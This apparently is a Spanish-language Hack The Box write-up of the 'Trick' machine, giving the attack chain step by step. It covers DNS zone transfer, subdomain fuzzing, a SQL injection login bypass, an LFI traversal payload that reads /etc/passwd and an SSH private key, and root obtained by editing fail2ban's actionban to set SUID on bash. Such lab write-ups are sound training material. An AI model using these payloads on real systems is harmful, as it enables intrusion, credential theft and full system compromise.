# Trick — Hack The Box

**Plataforma:** Hack The Box
**Dificultad:** 🟢 Fácil
**SO:** Linux
**Autor de la máquina:** No confirmado en las capturas (dato de HTB no verificado con certeza)
**Fecha de resolución:** 2026
**Técnicas:** Nmap · Transferencia de zona DNS (AXFR) · Fuzzing de subdominios con `wfuzz` (filtro por tamaño de respuesta) · **SQL Injection** en login · Credencial expuesta editando un campo oculto con DevTools · **LFI** (directory traversal) → lectura de `/etc/passwd` y clave SSH privada · Abuso de `sudo` sobre `fail2ban` (`actionban`) → root

---

## Índice
1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración — DNS y subdominios](#2-enumeración--dns-y-subdominios)
3. [Acceso inicial — SQL Injection y LFI](#3-acceso-inicial--sql-injection-y-lfi)
4. [Obtención de shell](#4-obtención-de-shell)
   - [Escalada de privilegios](#escalada-de-privilegios)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)

---

## 1. Reconocimiento

```bash
ping -c 1 10.129.75.177
```



Escaneo completo de puertos TCP:

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- -oN AllPorts 10.129.75.177
```


```bash
enum-nmap AllPorts
```


> 💡 4 puertos abiertos: **22 (SSH), 25 (SMTP), 53 (DNS) y 80 (HTTP)**. La presencia de un servicio DNS propio es la pista clave de esta máquina.

Escaneo de versión y scripts por defecto:

```bash
nmap -sS -Pn -sCV -T5 -n -p22,25,53,80 -oN Ports 10.129.75.177
```



```
80/tcp open  http  nginx 1.14.2
|_http-title: Coming Soon - Start Bootstrap Theme
```

## 2. Enumeración — DNS y subdominios

Consultamos el nombre asociado a la IP a través del propio servidor DNS de la máquina:

```bash
dig @10.129.75.177 -x 10.129.75.177
```


```
177.75.129.10.in-addr.arpa. 604800 IN PTR trick.htb.
```

Añadimos el dominio al `/etc/hosts`:



Probamos una transferencia de zona (AXFR) contra el dominio descubierto:

```bash
dig @10.129.75.177 TRICK.HTB axfr
```


```
preprod-payroll.trick.htb. 604800 IN CNAME trick.htb.
```

> 💡 Una transferencia de zona mal configurada (permitida a cualquier cliente) filtra todos los registros DNS del dominio, incluidos subdominios internos que de otra forma serían invisibles.

Añadimos el subdominio al `/etc/hosts`:


## 3. Acceso inicial — SQL Injection y LFI

### Bypass de login con SQL Injection

`preprod-payroll.trick.htb` aloja un **Recruitment Management System** (gestión de nóminas/RRHH):


Probamos una inyección SQL clásica de bypass de autenticación en el campo de usuario:

```
Username: ' or 1=1-- -
Password: (cualquiera)
```


Acceso concedido como Administrator:


En la sección **Users** aparece la cuenta de administrador real:


```
Username: Enemigosss
```

### Revelando una contraseña oculta con DevTools

Al abrir el formulario de edición de ese usuario, el campo de contraseña aparece enmascarado como `type="password"`. Usando las herramientas de desarrollador del navegador, cambiamos ese atributo a `type="text"` directamente en el DOM:


```
Password: SuperGucciRainbowCake
```

### Encontrando un segundo subdominio

Fuzzing de subdominios usando el header `Host`, contra `trick.htb`:

```bash
sudo wfuzz -c -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: preprod-FUZZ.trick.htb" http://trick.htb
```


> 💡 La respuesta por defecto del servidor (cuando el subdominio no existe) también devuelve código 200, generando muchos falsos positivos con el mismo tamaño de respuesta (`5480 Ch`). Filtrando por ese tamaño con `--hh` se descartan y queda solo el subdominio real:

```bash
sudo wfuzz -c --hh=5480 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: preprod-FUZZ.trick.htb" http://trick.htb
```



```
"marketing" → 200, 178 L, 631 W, 9660 Ch
```

Añadimos `preprod-marketing.trick.htb` al `/etc/hosts`:



### LFI (Local File Inclusion)

El nuevo sitio carga contenido dinámicamente mediante un parámetro `page`:

```
http://preprod-marketing.trick.htb/index.php?page=services.html
```


Probamos *directory traversal* repitiendo el patrón `....//` (que sobrevive a un filtro que solo elimina `../` una vez) para salir del directorio web y leer `/etc/passwd`:

```
http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//....//etc/passwd
```




```
michael:x:1001:1001::/home/michael:/bin/bash
```

Con un usuario del sistema identificado, intentamos leer su clave SSH privada con el mismo LFI (usando `view-source:` para evitar que el navegador intente renderizar el contenido):

```
view-source:http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//....//home/michael/.ssh/id_rsa
```



## 4. Obtención de shell

Guardamos la clave privada y ajustamos sus permisos:

```bash
chmod 600 id_rsa
```


```bash
ssh -i id_rsa michael@10.129.75.177
```


```
ls
Desktop Documents Downloads Music Pictures Public Templates user.txt Videos
```

`user.txt` confirmado en el home de `michael` — primera flag.

### Escalada de privilegios

```bash
sudo -l
```


```
User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```

Inspeccionamos la configuración de fail2ban:

```bash
cd /etc/fail2ban
ls -la
```



```
drwxrwx--- 2 root root security 4096 action.d
```

> 💡 El directorio `action.d` pertenece al grupo **`security`**, y `michael` es miembro de ese grupo — tiene permiso de escritura sobre los ficheros de acciones que fail2ban ejecuta al banear una IP, combinado con permiso para reiniciar el servicio como root sin contraseña. Esa combinación es una escalada de privilegios conocida (referencia: [infosecwriteups.com — Fail2ban Privilege Escalation](https://infosecwriteups.com/fail2ban-privilege-escalation-5de164aff6f3)).

Modificamos la acción `actionban` de la configuración del jail SSH:

```bash
mv iptables-multiport.conf .old
cp .old iptables-multiport.conf
nano iptables-multiport.conf
```



```ini
actionban = chmod u+s /bin/bash
```



Reiniciamos fail2ban con el permiso NOPASSWD para que recargue la configuración modificada:

```bash
sudo /etc/init.d/fail2ban restart
```

Monitorizamos los permisos de `/bin/bash` mientras provocamos el baneo:

```bash
watch -n 2 'ls -la /bin/bash'
```



En otra terminal, forzamos varios intentos fallidos de login SSH contra la propia máquina hasta superar el umbral de baneo configurado en el jail:

```bash
for i in {1..10}; do sshpass -p '1213' ssh michael@10.129.75.177; done
```



En cuanto fail2ban banea la IP, ejecuta `actionban` como root — aplicando el `chmod u+s /bin/bash` que inyectamos:



```
-rwsr-xr-x 1 root root 1168776 /bin/bash
```

Con el bit SUID activo en `bash`, obtenemos una shell con privilegios de root:

```bash
bash -p
```


## 5. Post-explotación y flags

```
ls
```



`root.txt` confirmado — compromiso total del sistema. Las capturas disponibles no incluyen la lectura explícita del contenido de `user.txt` ni `root.txt`, por lo que no se documentan aquí sus valores.

## 6. Lección aprendida

| Vulnerabilidad | Dónde | Impacto |
|----------------|-------|---------|
| Transferencia de zona DNS (AXFR) permitida a cualquier cliente | Puerto 53 | Filtra subdominios internos no enlazados públicamente |
| Formulario de login vulnerable a SQL Injection | `preprod-payroll.trick.htb` | Bypass completo de autenticación como Administrator |
| Contraseña visible cambiando el tipo de un campo HTML desde DevTools | Panel de edición de usuario | Robo de credenciales sin ninguna explotación del servidor |
| Subdominio adicional no enlazado, solo descubrible por fuerza bruta | `preprod-marketing.trick.htb` | Expone una superficie de ataque adicional no destinada a ser pública |
| Inclusión local de ficheros (LFI) vía parámetro `page` sin sanitizar | `index.php?page=` | Lectura arbitraria de ficheros del sistema, incluidas claves SSH privadas |
| Permiso `sudo` para reiniciar fail2ban combinado con escritura de grupo sobre `action.d` | `/etc/fail2ban/action.d` | Permite inyectar una acción arbitraria ejecutada como root al banear una IP |

## Recomendaciones defensivas

- Restringir las transferencias de zona DNS (AXFR) solo a servidores secundarios autorizados.
- Usar siempre consultas parametrizadas/prepared statements para prevenir SQL Injection.
- No confiar nunca en la ofuscación del lado del cliente (campos de tipo `password`) para proteger datos sensibles — esos valores ya están en el DOM y son trivialmente visibles.
- No depender de "seguridad por oscuridad" para subdominios internos; protegerlos con autenticación real si no deben ser públicos.
- Validar y sanear estrictamente cualquier parámetro usado para incluir ficheros, usando listas blancas en vez de intentar filtrar patrones de traversal.
- Restringir los permisos de escritura sobre los directorios de configuración de fail2ban (`action.d`, `filter.d`) a `root` exclusivamente.
- Auditar regularmente las reglas de `sudo` otorgadas, especialmente combinadas con permisos de escritura en ficheros que esos comandos privilegiados vayan a leer o ejecutar.

---

*Writeup por [Arabot](https://github.com/Caan31) · Hack The Box · 2026*
*¿Te ha ayudado? Dale una ⭐ al repositorio.*
